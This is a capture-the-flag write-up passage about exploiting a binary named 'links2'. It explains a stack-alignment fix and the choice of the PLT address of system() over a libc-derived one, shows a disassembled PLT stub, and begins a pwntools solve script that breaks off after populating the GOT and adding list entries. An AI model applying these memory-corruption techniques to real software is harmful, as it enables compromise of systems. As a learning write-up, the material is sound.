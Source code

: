 Notice that the RSP (`0x7fff526190b0`) no longer ends with an `8`, like it did when we were getting a segfault.

**double edit:** After reading the official write-up, I realised my mistake of using `system+1`. I had misinterpreted the advice, as in theirs they use the PLT address of system, rather than leaking from Lib-C. There's a good summary of PLT vs GOT (and plt.got vs got.plt) **[HERE](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)**.

> TL;DR: Those starting with .plt contain stubs to jump to the target, those starting with .got are tables of the target addresses.

Here's a snippet of the `plt.system` section of the binary. We should of used `0x401060` in this instance.

```c
thunk int system(char * __command)
      Thunked-Function: <EXTERNAL>::system
int           EAX:4      <RETURN>
char *        RDI:8      __command
        <EXTERNAL>::system     XREF[1]:  view_time:0040141a(c)
00401060 ff 25       JMP      qword ptr [-><EXTERNAL>::system]
00401066 68 03       PUSH     0x3
0040106b e9 b0       JMP      FUN_00401020
```

## Solve Script

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
```